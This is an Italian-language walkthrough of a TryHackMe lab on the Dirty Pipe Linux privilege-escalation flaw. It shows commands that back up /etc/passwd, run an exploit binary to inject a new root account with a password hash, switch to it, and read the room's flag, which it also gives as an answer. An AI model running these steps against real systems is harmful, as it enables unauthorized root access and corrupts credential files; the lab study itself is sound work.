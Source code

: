 Prima di eseguire l'exploit, è fondamentale **eseguire il backup del /etc/passwd file** Si tratta di un exploit potenzialmente dannoso che danneggerà il sistema (almeno per un po'); con il backup del file passwd, potremo facilmente ripristinare il danno una volta completato l'exploit.

Utilizzare 
```
cp /etc/passwd /tmp/passwd
```
per copiare il file passwd in /tmp, quindi eseguire l'exploit!

Il tuo comando dovrebbe assomigliare a questo:

Esecuzione dell'Exploit
```
./exploit /etc/passwd 189 'USERNAME:HASH:0:0::/root:/bin/bash
> '
```

```
 ./exploit /etc/passwd 189 'muiri:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash
> '
```
otteniamo
```
It worked!
```

Rispondi alle domande seguenti
Completare
Cambia l'utente (su) nel tuo account root appena creato.
```
su muiri
```
la password è PASSWORD
```
whoami
```
vediamo che siamo root
```
root@dirty-pipe:/home/tryhackme/Exploit/PoC# pwd
/home/tryhackme/Exploit/PoC
root@dirty-pipe:/home/tryhackme/Exploit/PoC# cd /root
root@dirty-pipe:~# ls
flag.txt
root@dirty-pipe:~# cat flag.txt
THM{MmU4Zjg0NDdjNjFiZWM5ZjUyZGEyMzlm}
root@dirty-pipe:~# 
```
Qual è il flag trovato nel /root/flag.txtfile?
```
THM{MmU4Zjg0NDdjNjFiZWM5ZjUyZGEyMzlm}
```
Come accennato in precedenza, abbiamo sovrascritto accidentalmente altri account utente sfruttando Dirty Pipe in questo modo. Ciò potrebbe causare problemi al server; pertanto, come professionisti, dobbiamo intervenire dopo i nostri exploit.
